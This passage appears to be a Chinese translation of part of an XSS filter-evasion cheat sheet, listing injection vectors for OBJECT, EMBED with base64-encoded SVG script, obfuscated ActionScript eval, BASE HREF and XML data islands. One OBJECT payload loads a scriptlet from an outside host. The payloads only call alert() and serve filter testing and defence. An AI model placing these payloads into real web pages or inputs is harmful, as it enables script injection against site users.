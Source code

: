 
<BASE HREF="javascript:alert('XSS');//">




### 2.70.    OBJECT标签

如果允许使用OBJECT，你可以插入一个病毒攻击载荷来感染用户，类似于APPLET标签。链接文件实际是含有你XSS攻击代码的HTML文件:


<OBJECT TYPE="text/x-scriptlet" DATA="<http://xss.rocks/scriptlet.html>"></OBJECT>




### 2.71.    使用EMBED标签加载含有XSS的FLASH文件

如果你添加了属性allowScriptAccess="never"以及allownetworking="internal"则可以减小风险（感谢Jonathan Vanasco提供的信息）:


<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>




### 2.72.    使用EMBED SVG包含攻击向量

该示例只在FireFox下有效，但是比上面的攻击向量在FireFox下好，因为不需要用户安装或启用FLASH。感谢nEUrOO提供:


<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>




### 2.73.    在FLASH中使用ActionScript混淆XSS攻击向量


a="get";
b="URL(\"";
c="javascript:";
d="alert('XSS');\")";
eval(a+b+c+d);





### 2.74.    CDATA混淆的XML数据岛

这个XSS攻击只在IE和使用IE渲染模式的Netscape 8.1下有效-攻击向量由Sec Consult在审计Yahoo时发现


<XML ID="xss"><I><B><IMG SRC="javascript:alert('XSS')"></B></I></XML>
